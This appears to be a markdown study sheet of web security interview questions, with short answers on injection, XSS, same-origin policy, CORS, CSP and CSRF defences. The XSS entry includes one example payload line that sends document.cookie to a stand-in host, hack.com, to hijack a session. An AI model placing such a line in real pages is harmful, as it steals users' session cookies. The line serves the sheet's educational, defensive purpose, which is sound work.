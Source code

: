 # Security Questions
- What is an Injection attack? How do you guard against injection attacks? An injection attack is when code or an intrepreter takes in input and tries to use it as data but gets tricked into executing it as code or commands. the input tricks the interpreter into executing commands(sanitize input, don't allow full sql statements, create function that accepts just the parameters - you can use an ORM, which will handle this for you.)
- What are vulnerabilities? How do guard against vulnerabilities being exploited? (mention synk)
- How is the value of logging?
- What is HTTPS?
- What is XSS? (cross-site scripting -used for session hijacking by attaching cookies to query param - window.location = 'hack.com?cookie=' + document.cookie)
- What is an origin when talking about websites?
- What is Same-Origin Policy? (by default ajax requests are blocked (more precisely their responses are not read) if they are sent to a different origin, but js (and css, imgs, etc) files can be loaded from different origins), allowing js files is due to practicality, and probably the best vector of attack today. The reason for the Same-Origin Policy is because you don't want your APIs to be public by default, you usually only want just your application to be able to access your API. So when an ajax request is made, the request is sent, but the browser blocks your JavaScript from reading the response unless the target server allows cross-origin requests, which it can specify using CORS headers. 
- What is CORS? 
- What happens when a cross-origin request is made? (if it's a GET request, the response must have the CORS header - Access-Control-Allow-Origin: * or Access-Control-Allow-Origin: <origin>, if it's a POST or PUT request, a preflight request is made (OPTIONS), the response must respond with the CORS headers - Access-Control-Allow-Origin: * or Access-Control-Allow-Origin: <origin> and Access-Control-Allow-Methods: POST) 
- What is the 'cors' npm library?
- How should you store passwords in databases?
- What can you do if someone bombards your server with requests? (This is a denial of service attack)
- What are Content Security Policies?
- How can CSP help with XSS? (in additon to whitelisting domains, it can also prevent inserted inline scripts from running by setting the 'script-src' header to 'self')
- What are environment variables? How do they aid in security?
- What security concerns do you have to be aware of when committing to a remote repository?
- What is the principle of least privilege?
- What does the helmet package do? (sets some headers that help with security, including a Content Security Policy)
- What is CSRF? 
- Why does Same-Origin Policy not prevent CSRF? (because cross-origin requests are still executed on the server, same-origin policy just prevents the browser from reading the response that gets sent back, if you want to block cross-origin requests from executing on the server, you can use a middleware that checks the origin of the request and blocks it if it's not from your domain, but this is obviously not default behavior on any programming language's server)
- How to guard against CSRF? (setup server to check for cross-origin requests and block them if they are not from your domain, however this doesn't prevent all attacks because some requests don't sent origin/ referer headers so you can't tell, and also it won't block same-origin XSS based CSRF attacks. best defense is CSRF tokens + SameSite cookies. CSRF tokens are values tied to a session that are generated by the server and included in pages and forms to be sent with the request which identifies it as uncompromised)
